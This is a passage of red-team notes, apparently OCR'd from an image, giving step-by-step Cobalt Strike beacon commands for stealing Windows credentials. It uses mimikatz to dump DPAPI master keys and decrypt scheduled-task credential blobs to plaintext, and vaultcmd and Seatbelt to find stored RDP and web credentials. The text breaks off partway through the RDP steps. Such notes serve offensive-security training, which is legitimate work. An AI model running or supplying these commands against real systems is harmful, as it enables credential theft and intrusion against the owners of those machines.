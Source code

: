 # Part 2.1: Scheduled Task Credentials
# 0. Before manually trying to extract Credentials try below command ones which is equivalent of the below commands and gives same.
beacon> mimikatz !vault::cred /patch
# 1. Credentials for task scheduler are stored at below location in encrypted blob
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
# 2. Find the GUID (guidMasterKey) of Master key associated with encrypted blob (F31...B6E)
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
# 3. Dump all the master keys and filter the one we need based on GUID identified in previous step
beacon> mimikatz !sekurlsa::dpapi
# 4. Use the Encrypted Blob and Master Key to decrypt and extract plain text password
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

# Part 2.2: Extracting stored RDP Password

# 0. Verify if any credentials are stored or not
beacon> run vaultcmd /list
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> run vaultcmd /listcreds:"Web Credentials" /all
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault

# 1. Enumerate the location of encrypted credentials blob (Returns ID of Enc blob and GUID of Master Key)
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles

# 2. Verify the credential blob in users cred directory (Note enc blob ID)
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
